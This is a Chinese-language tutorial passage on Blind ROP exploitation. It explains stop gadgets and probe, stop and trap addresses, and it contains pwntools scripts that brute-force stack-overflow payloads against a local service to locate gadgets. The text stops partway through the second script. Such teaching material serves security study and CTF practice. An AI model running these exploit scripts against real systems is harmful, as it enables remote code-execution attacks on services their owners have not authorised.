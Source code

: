 当我们控制程序的返回地址时，一般有以下几种情况

- 程序直接崩溃
- 程序运行一段时间后崩溃
- 程序一直运行而并不崩溃

为了有用的gadget我们有以下操作：找stop gadget， 识别gadget，找plt表，找got表。

##### 找stop gadget

1.  找stop gadget：

	1. 所谓`stop gadget`一般指的是这样一段代码：当程序的执行这段代码时，程序会进入**无限循环**，这样使得攻击者能够**一直保持连接状态**。  之所以要寻找 stop gadgets，是因为当我们猜到某个 gadgtes 后，如果我们仅仅是将其布置在栈上，由于执行完这个 gadget 之后，程序还会跳到栈上的下一个地址。如果该地址是非法地址，那么程序就会 crash。这样的话，在攻击者看来程序只是单纯的 crash 了。因此，攻击者就会认为在这个过程中并没有执行到任何的`useful gadget`，从而放弃它。 

	2.  如果我们布置了`stop gadget`，那么对于我们所要尝试的每一个地址，如果它是一个 gadget 的话，那么程序不会崩溃。接下来，就是去想办法识别这些 gadget。  

	3. ```python
		def get_stop_addr(length):
		    addr = 0x400000
		    while 1:
		        try:
		            sh = remote('127.0.0.1', 9999)
		            sh.recvuntil('password?\n')
		            payload = 'a' * length + p64(addr)	#尝试地址
		            sh.sendline(payload)
		            sh.recv()			#连接成功
		            sh.close()
		            print 'one success addr: 0x%x' % (addr)
		            return addr
		        except Exception:
		            addr += 1
		            sh.close()
		```

##### 识别 gadget

1. 识别 gadget：

	1. 我们可以通过栈布局以及程序的行为来进行识别。为了更加容易地进行介绍，这里定义栈上的三种地址 

		1. Probe探针，也就是我们想要探测的代码地址。一般来说，都是 64 位程序，可以直接从 0x400000 尝试，如果不成功，有可能程序开启了 PIE 保护，再不济，就可能是程序是 32 位了。。这里我还没有特别想明白，怎么可以快速确定远程的位数。
		2. Stop不会使得程序崩溃的 stop gadget 的地址。
		3. Trap可以导致程序崩溃的地址

	2.  我们可以通过在栈上摆放不同顺序的 **Stop** 与 **Trap** 从而来识别出正在执行的指令。因为执行 Stop 意味着程序不会崩溃，执行 Trap 意味着程序会立即崩溃。 

	3. ```python
		def get_brop_gadget(length, stop_gadget, addr):
		    try:
		        sh = remote('127.0.0.1', 9999)
		        sh.recvuntil('password?\n')
		        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(stop_gadget) + p64(0) * 10
		        sh.sendline(payload)		#连续pop 6个说明是csu的gadget
		        content = sh.recv()
		        sh.close()
		        print content
		        # stop gadget returns memory
		        if not content.startswith('WelCome'):
		            return False
		        return True
		    except Exception:
		        sh.close()
		        return False
		
